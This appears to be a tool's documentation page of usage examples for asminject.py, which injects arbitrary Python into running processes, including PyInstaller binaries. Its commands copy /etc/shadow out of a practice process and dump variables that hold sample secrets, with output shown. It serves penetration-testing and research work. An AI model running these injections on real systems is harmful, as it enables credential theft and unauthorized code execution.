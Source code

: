 # asminject.py examples - Python

<a href="../README.md">[ Back to the main README.md ]</a>

## Basic examples

* [Execute arbitrary Python code inside an existing Python process](#execute-arbitrary-python-code-inside-an-existing-python-process)
* [Write all global or variables to standard out](#write-all-global-or-local-variables-to-standard-out)
* [Execute arbitrary Python code inside a PyInstaller-Compiled Binary Process](#execute-arbitrary-python-code-inside-a-pyinstaller-compiled-binary-process)

## Complex examples

* <a href="examples-python-container.md">Interact with a container only via injected Python code</a>
* <a href="examples-python-extract-and-decompile.md">Extract Python code from a running process and decompile it</a>

## Important

For all Python 3 examples, refer to the <a href="docs/specialized_options.md#specifying-non-pic-code">position-independent code discussion in the specialized options document</a>. Python 3 before 3.10 is usually not position-independent, but Python 3.10 and later usually are.

## Execute arbitrary Python code inside an existing Python process

Launch a harmless Python process that simulates one with access to super-secret, sensitive data. This example uses Python 3, but the syntax for `asminject.py` is identical for Python 2 target processes, although of course you'd need to specify script code that's valid in Python 2.

```
$ sudo python3 practice/python_loop.py

2022-05-12T19:46:46.245462 - Loop count 0
2022-05-12T19:46:51.253640 - Loop count 1
2022-05-12T19:46:56.264897 - Loop count 2
```

In a separate terminal, locate the process and inject some arbitrary Python code into it. 

This payload requires one variable: `pythoncode`, which should contain the Python script code to execute in the existing Python process.

```
# python3 ./asminject.py 2037475 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "import os; import sys; finput = open('/etc/shadow', 'rb'); foutput = open('/tmp/bishopfox.txt', 'wb'); foutput.write(finput.read()); foutput.close(); finput.close();"
   
...omitted for brevity...
```

Verify that the file has been copied:

```
# cat /tmp/bishopfox.txt 

root:!:18704:0:99999:7:::
daemon:*:18704:0:99999:7:::
bin:*:18704:0:99999:7:::
sys:*:18704:0:99999:7:::
```

## Write all global or local variables to standard out

Use [the following Python 3 code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/633127/viewing-all-defined-variables)

Global variables:

```
tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]
```


Local variables:

```
tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]
```

e.g. for global variables:

```
# python3 ./asminject.py 249594 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]"
```

or for local variables:

```
# python3 ./asminject.py 249594 execute_python_code.s \
   --relative-offsets-from-binaries \
   --var pythoncode "tmp = locals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]"
```

Example output:

```
2022-06-09T23:08:56.301925 - Loop count 107
time   :   <module 'time' (built-in)>  type: <class 'module'>
datetime   :   <module 'datetime' from '/usr/lib/python3.9/datetime.py'>  type: <class 'module'>
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   107  type: <class 'int'>
v   :   time  type: <class 'str'>
2022-06-09T23:09:05.310443 - Loop count 108
```

## Execute arbitrary Python code inside a PyInstaller-Compiled Binary Process

[The PyInstaller toolkit](https://pyinstaller.org/) allows Python developers to package their scripts into self-contained binary packages that can be run on systems that don't have a compatible Python interpreter installed (on Linux, the result is basically a collection of native-code ELF executables and libraries). Some people think of this as a form of obfuscation, as it increases the difficultly of reverse-engineering the software than if the scripts were available. But a PyInstaller package includes a fully-functional Python interpreter, so one can inject arbitrary Python code into the running process the same way as for a standard Python process.

Start by creating a PyInstaller package, if you don't already have one to test against:

```
# pip3 install pyinstaller

# cd practice

# pyinstaller python_loop.py

418 INFO: PyInstaller: 5.3
418 INFO: Python: 3.10.5
422 INFO: Platform: Linux-5.18.0-kali2-amd64-x86_64-with-glibc2.33
...omitted for brevity...
5368 INFO: Building COLLECT COLLECT-00.toc
6013 INFO: Building COLLECT COLLECT-00.toc completed successfully.

# file dist/python_loop/python_loop

dist/python_loop/python_loop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9230f3fa19123436d7e9b46b02c11f1e492895c1, for GNU/Linux 2.6.32, stripped

# dist/python_loop/python_loop

2022-09-09T00:50:08.907011 - Loop count 0
2022-09-09T00:50:33.419231 - Loop count 1
```

In a separate terminal, locate the process and inject code into it just like it was a regular Python process:

```
# ps auxww | grep python_loop                                                                                              

user      153818  [...] dist/python_loop/python_loop


# python3 ./asminject.py 153818 execute_python_code.s \
	--relative-offsets-from-binaries \
	--var pythoncode "tmp = globals().copy(); [print(k,'  :  ',v,' type:' , type(v)) for k,v in tmp.items()]"
```

Example output for dumping global variables:

```
2022-09-09T00:53:08.653563 - Loop count 32
...omitted for brevity...
__loader__   :   <pyimod02_importers.FrozenImporter object at 0x7f6af5260880>  type: <class 'pyimod02_importers.FrozenImporter'>
...omitted for brevity...
os   :   <module 'os' from '/[REDACTED]/practice/dist/python_loop/base_library.zip/os.pyc'>  type: <class 'module'>
...omitted for brevity...
inspect   :   <module 'inspect' from '/[REDACTED]/practice/dist/python_loop/inspect.pyc'>  type: <class 'module'>
...omitted for brevity...
example_global_var_1   :   AKIASADF9370235SUAS0  type: <class 'str'>
example_global_var_2   :   This value should not be disclosed  type: <class 'str'>
i   :   32  type: <class 'int'>
2022-09-09T00:53:17.745785 - Loop count 33
```

See the <a href="examples-python-extract-and-decompile.md">Extract Python code from a running process and decompile it</a> page for more detail on reverse-engineering the code from a running PyInstaller-based binary.
